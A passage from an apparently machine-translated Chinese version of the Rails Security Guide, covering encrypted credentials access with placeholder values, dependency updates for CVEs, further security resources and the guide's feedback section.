例如，使用以下解密的config/credentials.yml.enc：
secret_key_base: 3b7cd72...
some_api_key: SOMEKEY
system:
access_key_id: 1234AB
Rails.application.credentials.some_api_key 返回 "SOMEKEY"。 Rails.application.credentials.system.access_key_id 返回 "1234AB"。
如果您希望在某些 key 為空時引發異常，您可以使用 bang 版本：
# When some_api_key is blank...
Rails.application.credentials.some_api_key! # => KeyError: :some_api_key is blank
提示：透過bin/rails credentials:help 瞭解有關憑據的更多資訊。
警告：保證你的主人key 安全。不要提交你的主人key。
11 依賴管理和 CVE
我們不會僅僅為了鼓勵使用新版本（包括安全問題）而增加依賴項。這是因為無論我們如何努力，應用程式所有者都需要手動更新他們的 gem。使用bundle update --conservative gem_name 安全地更新易受攻擊的依賴項。
12 其他資源
安全格局發生變化，保持最新狀態很重要，因為錯過新漏洞可能是災難性的。您可以在此處找到有關 (Rails) 安全性的其他資源：
- 訂閱 Rails 安全 郵件列表。
- Brakeman - Rails Security Scanner - 對 Rails 應用程式執行靜態安全分析。
- Mozilla 的網路安全指南 - 有關內容安全策略、HTTP 標頭、Cookies、TLS 配置等主題的建議。
- 一個 good security blog 包括 Cross-Site scripting Cheat Sheet .
反饋
我們鼓勵您幫助提高本指南的質量。
如果您發現任何拼寫錯誤或事實錯誤，請貢獻。 首先，您可以閱讀我們的 文檔貢獻 部分。
您還可能會發現不完整的內容或不是最新的內容。 請務必為 main 添加任何缺失的文檔。確保檢查 Edge Guides 先驗證 如果問題已經在主分支上解決。 檢查 Ruby on Rails 指南指南 風格和慣例。
如果由於某種原因您發現需要修復但無法自行修補的內容，請 open an issue。
最後但並非最不重要的是，關於 Ruby on Rails 的任何討論 rubyonrails-docs 郵件列表 上的文檔非常受歡迎。